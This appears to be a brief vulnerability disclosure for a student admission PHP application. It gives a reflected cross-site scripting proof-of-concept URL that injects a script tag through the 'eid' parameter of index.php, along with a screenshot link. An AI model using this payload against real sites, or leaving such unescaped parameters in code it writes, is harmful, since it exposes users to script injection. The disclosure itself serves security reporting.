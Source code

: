# Student-Admission-Xss

### Xss Payload

```
index.php?a=edit&eid=8</h3><script>alert(1)</script>
```

![image](https://user-images.githubusercontent.com/72059221/182757706-14a19be6-c7b9-4dd6-b181-7ea452ec13d2.png)
